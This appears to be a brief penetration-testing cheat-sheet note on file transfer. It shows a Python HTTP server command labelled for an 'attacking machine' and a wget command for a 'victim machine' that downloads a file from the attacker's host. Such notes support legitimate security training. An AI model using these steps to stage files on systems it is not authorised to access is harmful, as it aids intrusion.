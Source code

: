 ## Python (Simple http server)

### Attacking machine:

- Can also be used to transfer files.

`sudo python3 -m http.server 80`

```Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)```


### Victim Machine:
`wget http://192.168.118.3/file-to-transfer`








| tags      | 
| ----------- |
| simplehttpserver|
| Paragraph    |
| file-transfer | 
| python-web-server|